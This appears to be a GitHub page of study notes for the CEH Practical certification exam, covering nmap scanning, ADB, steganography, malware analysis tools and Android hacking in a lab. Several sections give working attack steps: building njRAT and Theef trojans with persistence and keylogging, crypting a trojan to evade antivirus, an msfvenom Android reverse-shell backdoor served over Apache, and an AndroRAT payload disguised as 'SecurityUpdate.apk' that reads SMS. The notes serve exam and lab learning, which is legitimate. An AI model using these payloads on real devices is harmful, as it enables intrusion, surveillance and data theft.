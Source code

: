 # CEH-Practical-Notes

# Network Hacking
<details>
  <summary>Netdiscover </summary>

* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>

* To scan the live Host
```console

nmap -sP x.x.x.0/24        	{Live host}
nmap -PR -sn x.x.x.0/24        	{Live host without port scan - ARP scan}
nmap -sC -sV x.x.x.0/24        	{Script + version}    
nmap -O x.x.x.x                 {To find the OS}
nmap -p- x.x.x.1/24        	{open port}
nmap -p port x.x.x.1/24 --open  {find the Specific open port}
nmap -T4 -A -v www.moviescope.com/x.x.x.10/24  {Aggressive scan}
nmap --script <script_name> -p <port> x.x.x.0/24 {using nse script}
nmap -sC -sV -p- -A -v -T4 x.x.x.0/24 {script+version+ports+os scan}
nmap -T4 -A -v -oN ouput.txt x.x.x.0/24  {Normal output in a file}

nmap -Pn -A x.x.x.1/24 -vv --open {Comprehensive Scan}
nmap -p 3389 -iL ip.txt | grep open (Check RDP enabled after getting ip)
nmap -p 3306 -iL ip.txt | grep open (Check MySQL service running)



nmap -sn x.x.x.0/24 -iL ips.txt {No of hosts up}

```
</details> 

# Android Hacking
<details>
  <summary>ADB</summary>

* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>


# Steganography
  <details>
    <summary>OpenStego</summary>

* To hide the Text in image

```console
Hide Data -> Message file -> text & Cover file -> image file
Output -> Desktop -> island -> Hide data
```

* To unhide the Hidden Text

```console
Extract Data -> Input -> islan.png
Output -> Desktop/NewTextDocument.txt
```

</details>

<details>
    <summary>Keywords</summary>

* Img hidden      - Openstego
* .hex            - Cryptool
* Whitespace      - SNOW
* MD5             - Hashcalc & MD5 Calculator
* Encoded         - BCTexteditor
* Volume & mount  - Veracrypt

</details>

# Malware threat analysis
<details>
<summary>Gain access to the target system using Trojans</summary>

```console

[W11] - attacker
	
Launch njRAT v0.7d.exe
port 5552
Click Builder (lower left -corner)
Enter Ip of attacker,check the optionRegisty StarUp and clickBuild.
Save As malacious.exe on Desktop and share

[WS22] - Victim
Copy malacious.exe to Desktop and Run

[W11]
Establishes a persistent connection with the victim machine
Right click on detected victim and click Manager
"Process Manager" -> Right click -> Kill/Delete/Restart
Connectoin -> Right click -> Kill Connection
Registry -> Right click -> associated registry files
Remote Shell -> launch remote conn on Win 22

cmd>ipconfig/all -> lower left conrner
Services -> start/pause/stop service
Close Manager window

Right click on victim name -> Remote Desktop (Launches remote connection)
select Mouse Checkbox -> remotely interact with the victim machine using the mouse.
Right click on victim name ->Remote Cam -> Microphone

[WS22]
As a victim perform some activity on machine, create a secret file and save.

[W11]
Right click on victim name -> Keylogger -> Able to view all keystrokes performed by victim
Right click on victim name -> open chat -> send msg to victim

```
</details>

<details>
<summary>Create a Trojan Server using Theef RAT Trojan</summary>
    Allows remote access to the system via port 9871 & 6703.

```console
[WS22] - Victim
Run Theef/Server210.exe 

[W11] - Attacker
Run Theef/Client210.exe
Victims ip & port 6703 
Estblish connection and perform activity, client will track all.
Computer info/ PC details/Home/Nw Info
```
</details>

<details>
<summary>Create a Virus using JPS virus maker tool and infect the target system</summary>

Features - auto-start/shutdown/disable security check, lock mouse, keyboard, destroy protected storage & terminate windows

```console

[Win11]
Luaunch JPS executable
Selection options you with to do --> Righ Arrow -> To change windows password & other --> right arrow for more features
Create virus
Share the virus created

[WS19]
Launch virus created
Open task manager - its disable - to verify
Restart to see pwd change affected
```
</details>
<details>
<summary>Hide a Trojan using SwayzCrypto</summary>

```console

[W11]
https://www.virustotal.com -> upload & see no of vul identified -> 59/69 vul shows
Run SwayzCryptor.exe ->Select file -> Desktop/Test.exe ->check the optionsStart up,Mutex, andDisable UAC, and then clickEncrypt.
Save file dialog -> cryptedfile.exe 
https://www.virustotal.com -> upload crypted.exe -> confirm upload -> only few anivirus will detect its malacious file

Start njRAT v0.7d.exe
Share CryptedFile.exe via shared folder

[WS22]
copy crypted.exe from shared to desktop -> run -> Attacker machine establishes a persistent connection with the victim machine.

[W11]
can observe that the connection has been established with the victim machine.

```

</details>

<details>
<summary>Capture and Analyze IoT Traffic using Wireshark</summary>

```console
[WS19]
Launch \Bevywise IoT Simulator\Bevywise_MQTTRoute_Win_64.exe file.
Command prompt will appear, can see the TCP port using 1883.

To create IoT devices, we must install the IoT simulator on the client machine.
[WS22]

Launch \Bevywise IoT Simulator\Bevywise_IoTSimulator_Win_64.exe
Launch C:\Bevywise\IotSimulator\bin\runsimulator.bat -> select Microsoft Edge browser and click OK to open the URL http://127.0.0.1:9000/setnetwork?network=HEALTH_CARE.
View the default network named HEALTH_CARE and several devices.

Create a virtual IoT network and virtual IoT devices. 
select the +New Network option.
CEH_NETWORK -> Create 
Broker IP Address as: [WS19_IP]
- the created network will interact with the server using MQTT Broker.

Add blank Device
Device name:Sensor, enter Device Id:TS1, Description and click on Save.
To connect the Network and the added devices to the server or Broker, click on the Start Network red color circular icon in right corner.

When a connection is established between the network and the added devices and the web server or the MQTT Broker, the red button turns into green.

[Ws19]
can see a connection request from machine WS22 machine for the device TS1.

[WS22]
Create Subscribe command for the device Sensor.
Click on the Plus icon in the top right corner and select the Subscribe to Command option.
The Subscribe for command - TS1 popup opens. Select On start under the Subscribe on tab, type High_Tempe under the Topic tab, and select 1 Atleast once below the 
Qos option. Click on Save.
can see the Topic added under the Subscribe to Commands section.
 will capture the traffic between the virtual IoT network and the MQTT Broker to monitor the secure communication.

 Wireshark
 Note: Make sure you have selected interface which has WS22 as the IP address.

[WS19]
Chrome - http://localhost:8080

Signin
Devices Menu 
send the command to TS1 using the High_Tempe topic.
Command Send section, select Topic as High_Tempe, type Alert for High Temperature and click on the Send button.

[S22]
Verify the message is received

wireshark
filter: mqtt

```
</details>

<details>
<summary>malware analysis</summary>

* Static malware analysis using hybrid

   https://www.hybrid-analysis.com -> upload virus and analyse

* Strings search using BinText
 
[WS11]
    
Run bintext.exe ->String searching tool
select Advance view
select "malacious.exe" from shared drive


* Identify packaging and obfuscation methods using PEid

[W11]

Launch PEiD.exe
Open virus file
click Open, PEiD analyzes the file and provides information


* Analyze ELF executable file using Detect It Easy (DIE)

Detect It Easy automatically scans the file and result appears showing the Operating system, compiler and language details in the middle pane

[W11]

Launch die.exe
Open ELF Test File
File info/Hash/Entropy and other details


* Portable executable (PE) information of a malware executable file using PE Explorer

Launch PE.Explorer_setup.exe
Open virus.exe
On top
Data Directories ->to view and edit the virtual address and size of the chosen directory describing provisions of parts of the code.
Section Headers->


* File dependencies using Dependency Walker

Launch depends.exe
open file.exe
Observer Import and Export section.


* Malware disassembly using IDA

[W11]

Launch IDA Freeware
IDA: Quick start -> New -> select malicious file
Portable executable for 80386 (PE) [pe64.dll] option selected -> OK
IDA View-A tab -> Right click -> Text view

Disassembling and Debugging Tools\IDA, Copy the qwingraph.exe file and paste it in IDA’s installation location. C:\Program Files\IDA Freeware 7.7
IDA-> View-> Graphs-> Flow Chart
View -> Graphs -> Function calls
HexView-1tab -> view hex value of the malicious file
Structure
Enums

* Malware disassembly using OllyDbg

Launch OLLYDBG.EXE

File file.exe
Output appears in -> CPU - main thread, module tini

View-> Log
Log data appears ->displays the program entry point and its calls to known functions

View->Executable modules
View->Memory
View->Thread


* Malware disassembly using Ghidra

Run ghidraRun.bat

If a Command Prompt window appears, then type C:\Program Files\jdk-17.0.2+8 and press Enter
Ghidra: NO ACTIVE PROJECT -> File -> New Project
Non-Shared Project -> Proj Name: Malware Analysis -> Finish
File->Import file -> file.exe -> Import Result Summary -> OK

file.exe is added as a children node under the Malware Analysis project
Double click file.exe -> Analyse -> Yes
under Symbol Tree, you can observe various components of face.exe file such as Imports, Exports, Functions and Labels

Expand Imports -> view DLL files

Program Tree->Headers double click
-> Double click .rdata

</details>

#Web server hacking
<details>
	<summary>using Nmap Scripting Engine (NSE)</summary>
	
	```console
	[linux]
	nmap -sV --script=http-enum [target]
	 
	To discover the hostnames that resolve the targeted domain.
	nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- [target]

	Perform HTTP trace on the targeted domain
	nmap --script http-trace -d [target]
	This script will detect a vulnerable server that uses the TRACE method by sending an HTTP TRACE request that shows if the method is enabled or not.

	check whether Web Application Firewall is configured on the target host or domain
	nmap -p80 --script http-waf-detect [Target]
	determine whether a web server is being monitored by an IPS, IDS, or WAF.
	This command will probe the target host with malicious payloads and detect the changes in the response code
        ```
	<summary>Linux </summary>
 	sudo su
	
	uniscan -h
	uniscan -u [target-url] -q
	-q -> to search for the directories of the web server.
	
	uniscan -u [target-url] -we
	Here -w and -e are used together to enable the file check (robots.txt and sitemap.xml file).
	
	uniscan -u [target-url] -d
	to start a dynamic scan on the web server.
	obtaining more information about email-IDs, Source code disclosures, and external hosts, web backdoors, dynamic tests.
	
	File system ->
	usr --> share --> uniscan --> report.
 
</details>

#Reference
* Analyze IOT device
https://ceh-practical.cavementech.com/module-18.-iot-and-ot-hacking/2.-capture-and-analyze-iot-traffic

<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console


 	```
</details>

<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console

	[Linux]
	sudo su
	cd PhoneSploit
	python3 -m pip install colorama
	python3 phonesploit.py
	3  	-> Connect a new phone
	Enter a phones ip address: [andoirdIP]
	connection time out error :  Type 3 continue until u get Phone Ip address option
	Connected at port 5555
	
	(main_menu)> 4  	-> Access Shell on a phone
	Device name: [AndroidIP]
	pwd		-> Root dir
	ls
	cd sdcard
	ls
	cd Download
	ls
	
	Note: Note down the location of images.jpeg (in this example, /sdcard/Download/images.jpeg). We will download this file in later steps.
	exit
	
	(main_menu)>7    ->Screen Shot a picture on a phone.
	[AndoridIP]
	/home/attacker/Desktop		-> save, screen.png is stored in Desktop
	
	(main_menu)>14 	 ->list all apps on the phone
	[AndoridIP]
	(main_menu)>15 	 ->choose Run an app
	com.android.calculator2
	
	[android]
	see that the calculator app is running, and that random values have been entered
	```
</details>

<details>
	<summary># Hack an Android Device,Creating Binary Payloads</summary>
	
	```console
 [Linux]
    sudo su
	cd
	service postgresql start
	msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[PIP] -R > Desktop/Backdoor.apk 
	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	service apache2 start
	cp /root/Desktop/Backdoor.apk /var/www/html/share/
	msfconsole
	use exploit/multi/handler
	show options
	set LHOST [PIP]
	exploit -i -z  -> run exploit as background job
	
	[Android]
	launch http://[PIP]/share
	download and run Backdoor.apk
	
	[Linux]
	The meterpreter session has been opened successfully
	sessions -i 1
	sysinfo
	ipconfig
	pwd
	cd /sdcard 
	pwd -> /storage/emulated/0.
	ps
 	```
</details>
    

<details>
	<summary># Hack an Android Device,Creating APK File - AndroRAT</summary>
	
	```console
	[linux]
	sudo su 
	cd AndroidRat
	python3 androidRAT.py --build -i [PIP] -p 4444 -o SecurityUpdate.apk
	--build: is used for building the APK
	-i: specifies the local IP address
	cp /home/attacker/AndroidRAT/SecurityUpdate.apk /var/www/html/share
	service apache2 start
	python3 androidRAT.py --shell -i 0.0.0.0 -p 4444
        --shell: is used for getting the interpreter
        -i: specifies the IP address for listening (here, 0.0.0.0)

	[Android]
	launch http://[PIP]/share
	save and open SecurityUpdate.apk
	
	[parrot]
	Interpreter session has been opened successfully.
	help
	deviceinfo
	getSIM inbox
	getMACAddress
	exit
 	```
</details>  

